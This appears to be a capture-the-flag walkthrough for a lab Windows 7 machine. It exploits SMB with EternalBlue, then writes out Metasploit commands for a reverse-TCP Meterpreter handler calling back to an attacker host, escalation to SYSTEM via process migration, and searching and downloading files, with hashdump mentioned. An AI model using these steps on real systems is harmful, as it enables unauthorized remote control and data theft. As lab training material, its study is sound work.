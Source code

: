 # Blue CTF Walkthrough

## Target Info
- **IP:** 10.201.47.14  
- **OS:** Windows 7 / Windows Server 2008 R2  
- **Open Ports (1–1000):**
| Port | Service       | Version                         |
|------|---------------|--------------------------------|
| 135  | msrpc         | Microsoft Windows RPC          |
| 139  | netbios-ssn   | Microsoft Windows netbios-ssn |
| 445  | microsoft-ds  | Windows 7–10 microsoft-ds      |

## Exploit & Payload
- **Exploit Used:** ms17_010_eternalblue  
- **Payload:** windows/x64/meterpreter/reverse_tcp  

- **Handler Setup:**
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <AttackBox-IP>
set LPORT <port>
exploit



- **Shell Upgrade to Meterpreter:**
use post/multi/manage/shell_to_meterpreter
set session 1
run



- **Confirm Meterpreter Session:**
sessions -i <meterpreter_session_id>
meterpreter >



## Post-Exploitation

### Check Privileges
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM



### List Processes
meterpreter > ps



### Migrate to a stable SYSTEM process
meterpreter > migrate <PID>
meterpreter > getuid


> Tip: Pick services.exe, winlogon.exe, or explorer.exe to avoid crashes.

## Flag Hunting

### Flag 1 (Desktop or C:\)
meterpreter > search -f Flag1.txt
meterpreter > cat C:\flag1.txt
meterpreter > download C:\flag1.txt



### Flag 2 (System folder)
meterpreter > search -f Flag2.txt
meterpreter > cat C:\Windows\System32\config\flag2.txt
meterpreter > download C:\Windows\System32\config\flag2.txt



### Flag 3 (Documents or key location)
meterpreter > search -f Flag3.txt
meterpreter > cat C:\Users\<Username>\Documents\flag3.txt
meterpreter > download C:\Users\<Username>\Documents\flag3.txt


> Important: Always use double backslashes `\\` or forward slashes `/` in Windows paths.

## Errata / Notes
- Some flags may disappear due to Windows quirks.  
- If `cat` fails or flag is missing:
  1. Terminate session: `exit`  
  2. Re-run the exploit to get a fresh shell  
  3. Upgrade shell → Meterpreter  
  4. Repeat flag search
- Migration may fail sometimes; try another SYSTEM-owned process.  

## Lessons Learned
1. Meterpreter upgrades provide advanced commands like `ps`, `getuid`, `hashdump`.  
2. Check privileges before migration to avoid losing SYSTEM access.  
3. Windows file paths in Meterpreter are tricky — stick to `C:\\` or `/`.  
4. Search for flags using `search -f <filename>` instead of manual browsing.  
5. Document all steps — makes future CTFs faster.
